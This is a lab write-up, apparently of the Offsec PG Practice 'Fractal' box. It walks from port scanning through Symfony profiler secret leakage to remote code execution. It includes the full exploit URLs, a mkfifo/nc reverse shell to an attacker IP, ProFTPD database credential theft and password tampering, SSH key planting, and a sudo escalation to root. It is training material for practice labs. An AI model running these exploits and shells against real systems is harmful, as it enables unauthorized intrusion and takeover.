


###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Fractal
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.244.233 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.244.233:21
Open 192.168.244.233:22
Open 192.168.244.233:80

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome!
| http-robots.txt: 2 disallowed entries 
|_/app_dev.php /app_dev.php/*
|_http-favicon: Unknown favicon MD5: 231567A8CC45C2CF966C4E8D99A5B7FD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ffuf -u http://192.168.244.233/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

#                       [Status: 200, Size: 2640, Words: 557, Lines: 59, Duration: 5713ms]
                        [Status: 200, Size: 2640, Words: 557, Lines: 59, Duration: 6722ms]
img                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 8726ms]
css                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 225ms]
js                      [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 233ms]
javascript              [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 227ms]
phpmyadmin              [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 221ms]
                        [Status: 200, Size: 2640, Words: 557, Lines: 59, Duration: 228ms]
```

查看`http://192.168.244.233/app_dev.php`，左下角有個綠綠的200點進去



參考[Multiple Vulnerabilities in Symfony profiler
](https://rahadchowdhury.medium.com/how-to-find-multiple-vulnerabilities-in-symfony-profiler-debug-mode-ccf2c5c7bb9f)，最下面有提到前往`http://192.168.244.233/app_dev.php/_profiler/open?file=app/config/parameters.yml`可以看到一些資料

```
# This file is auto-generated during the composer install
parameters:
    database_host: 127.0.0.1
    database_port: 3306
    database_name: symfony
    database_user: symfony
    database_password: symfony_db_password
    mailer_transport: smtp
    mailer_host: 127.0.0.1
    mailer_user: null
    mailer_password: null
    secret: 48a8538e6260789558f0dfe29861c05b
```

得到`secret key`，使用[symfony-exploits](https://github.com/ambionics/symfony-exploits/tree/main)(要先安裝ten)
```
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/cfreal/ten.git

┌──(kali㉿kali)-[~/ten]
└─$ pip install .
```

```
┌──(kali㉿kali)-[~/pgplay/symfony-exploits]
└─$ python3 symfony-secret-fragments-v2.py -s 48a8538e6260789558f0dfe29861c05b http://192.168.244.233/_fragment

[+] The URL returned 403, continuing.
[*] Trying to find secret, internal URL, and hash algorithm
  (OK) sha256 48a8538e6260789558f0dfe29861c05b http://192.168.244.233/_fragment 
http://192.168.244.233/_fragment?_path=&_hash=qXsUQ5g0sgvVVIXDmg%2F5tl9mot2sv3Qio1H6VQho7W0%3D (404)
[+] Setup done
[*] Looking for code execution method

[+] Method 1 (Universal) worked !
[-] Method 2 (Symfony 4+) failed !
[+] Method 3 (Symfony 3+) worked !
[+] Method 4 (Symfony 2+) worked !

[+] Displaying information for the 3 working methods.

────────────────────────────────────────────────────── Universal ───────────────────────────────────────────────────────

Uses the function directly as a controller. Allows to call functions with several arguments.

───────────────────────────────────────────────────── PHPinfo URL ──────────────────────────────────────────────────────

http://192.168.244.233/_fragment?_path=_controller%3Dphpinfo%26what%3D-1&_hash=bQ9UgpPc9VIJ3oxTMCTfvJ2DgbExGges6f3hvq0eI
c8%3D

──────────────────────────────────────────────── Command: function call ────────────────────────────────────────────────

symfony-secret-fragments-v2.py 'http://192.168.244.233/_fragment' --secret '48a8538e6260789558f0dfe29861c05b' --algo    
sha256 --internal-url 'http://192.168.244.233/_fragment' --method 3 --function phpinfo --arguments '-1' 
```

他下面有一個function call，可以照著執行看看，並得到一個url
```
┌──(kali㉿kali)-[~/pgplay/symfony-exploits]
└─$ python3 symfony-secret-fragments-v2.py 'http://192.168.244.233/_fragment' --secret '48a8538e6260789558f0dfe29861c05b' --algo sha256 --internal-url 'http://192.168.244.233/_fragment' --method 4 --function phpinfo --arguments '-1'

──────────────────────────────────────────────────────── Setup ─────────────────────────────────────────────────────────

[*] No setup required

───────────────────────────────────────────────────── Exploit URL ──────────────────────────────────────────────────────

http://192.168.244.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521%2521php%252Fobject%253Aa%253A1%253A%257Bi%253A1%253Ba%253A2%253A%257Bi%253A0%253BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A7%253A%2522phpinfo%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bi%253A-1%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A7%253A%2522phpinfo%2522%253B%257D%257D%257Di%253A0%253Bi%253A0%253B%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26flags%3D16777215%26references%3D1&_hash=3dBjnqTf0ffUvOaPQ1LQ6nQIO1GqDpOKEs2mS03MTYc%3D
```

確認可以查看到`phpinfo()`的頁面，改成使用`system()+id`
```
┌──(kali㉿kali)-[~/pgplay/symfony-exploits]
└─$ python3 symfony-secret-fragments-v2.py 'http://192.168.244.233/_fragment' --secret '48a8538e6260789558f0dfe29861c05b' --algo sha256 --internal-url 'http://192.168.244.233/_fragment' --method 4 --function system --arguments 'id'
```


確認可以改使用reverse shell
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp80

┌──(kali㉿kali)-[~/pgplay/symfony-exploits]
└─$ python3 symfony-secret-fragments-v2.py 'http://192.168.244.233/_fragment' --secret '48a8538e6260789558f0dfe29861c05b' --algo sha256 --internal-url 'http://192.168.244.233/_fragment' --method 4 --function system --arguments 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.195 80 >/tmp/f'

Exploit URL ──────────────────────────────────────────────────────

http://192.168.244.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521%2521php%252Fobject%253Aa%253A1%253A%257Bi%253A1%253Ba%253A2%253A%257Bi%253A0%253BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A79%253A%2522rm%2B%252Ftmp%252Ff%253Bmkfifo%2B%252Ftmp%252Ff%253Bcat%2B%252Ftmp%252Ff%257C%252Fbin%252Fsh%2B-i%2B2%253E%25261%257Cnc%2B192.168.45.195%2B80%2B%253E%252Ftmp%252Ff%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257Di%253A0%253Bi%253A0%253B%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26flags%3D16777215%26references%3D1&_hash=HvQtho83LH2ywElXsMIJzp9R97Y1h6treKqAOBncX8E%3D
```

等反彈，在`/home/benoit`找到local.txt
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@fractal:/home/benoit$ cat local.txt
5c9d765d75db7576fcf43f0097cb9ff7
```

搜尋[proftpd root Privilege Escalation](https://www.tenable.com/plugins/nnm/1817)，裡面有講到有`/etc/proftpd.conf`，進到`/etc/proftpd`看看
```
www-data@fractal:/etc/proftpd$ ls
ls
blacklist.dat  dhparams.pem  modules.conf  sql.conf  virtuals.conf
conf.d         ldap.conf     proftpd.conf  tls.conf
```

查看`sql.conf` 
```
www-data@fractal:/etc/proftpd$ cat sql.conf
...
# used to connect to the database 
# databasename@host database_user user_password 
SQLConnectInfo proftpd@localhost proftpd protfpd_with_MYSQL_password
...
```

可以用`proftpd/protfpd_with_MYSQL_password`登入db，稍早利用ffuf掃描的時候有掃到phpmyadmin

登入phpmyadmin之後，可以進到proftpd查看
```
www-data@fractal:/etc/proftpd$ mysql -u proftpd -p'protfpd_with_MYSQL_password'

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| proftpd            |
+--------------------+
3 rows in set (0.00 sec)

mysql> use proftpd
mysql> show tables;
+-------------------+
| Tables_in_proftpd |
+-------------------+
| ftpgroup          |
| ftpuser           |
+-------------------+

mysql> select * from ftpuser;
select * from ftpuser;
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
| id | userid | passwd                        | uid | gid | homedir       | shell         | count | accessed            | modified            |
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
|  1 | www    | {md5}RDLDFEKYiwjDGYuwpgb7Cw== |  33 |  33 | /var/www/html | /sbin/nologin |     0 | 2022-09-27 05:26:29 | 2022-09-27 05:26:29 |
+----+--------+-------------------------------+-----+-----+---------------+---------------+-------+---------------------+---------------------+
```

參考[How To Set Up ProFTPD with a MySQL Backend on Ubuntu](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf)

根據此文產生一個密碼
```
┌──(kali㉿kali)-[~/pgplay]
└─$ /bin/echo "{md5}"`/bin/echo -n "password" | openssl dgst -binary -md5 | openssl enc -base64`
{md5}X03MO1qnZdYdgyfeuILPmQ==
```

進到phpmyadmin裡面改，然後順手把`uid`,`gid`,`homedir`,`shell`改掉


登入ftp，建立.ssh資料夾
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ftp 192.168.244.233
Connected to 192.168.244.233.
220 ProFTPD Server (Debian) [192.168.244.233]
Name (192.168.244.233:kali): www
331 Password required for www
Password: password

# homedir已設定在/home/benoit
ftp> ls 
229 Entering Extended Passive Mode (|||45807|)
150 Opening ASCII mode data connection for file list
-r--r--r--   1 www      benoit         33 Mar 28 05:39 local.txt

ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
```

在kali裡面gen一個ssh key送進去
```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:dNImBfV9BDs3Q4YTlJHQ4hG8YF8qeNyVP0M+WeX/BkA kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|        .o+oE+O++|
|         = * @o=.|
|        B O X Oo*|
|       o O * . @+|
|        S .   . =|
|               ..|
|                o|
|               . |
|                 |
+----[SHA256]-----+

┌──(kali㉿kali)-[~/.ssh]
└─$ cp id_rsa.pub authorized_keys

┌──(kali㉿kali)-[~/.ssh]
└─$ cp authorized_keys /home/kali/pgplay

ftp> cd .ssh
ftp> put authorized_keys
```

送進去之後就可以ssh登入，成功以`benoit`登入，可在/root路徑找到proof.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh benoit@192.168.244.233

$ whoami
benoit
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
benoit@fractal:~$ sudo -l
Matching Defaults entries for benoit on fractal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User benoit may run the following commands on fractal:
    (ALL) NOPASSWD: ALL
benoit@fractal:~$ sudo su
root@fractal:/home/benoit# cd /root
root@fractal:~# cat proof.txt
a307f98b89a5ac8dc99deed72f85da75
```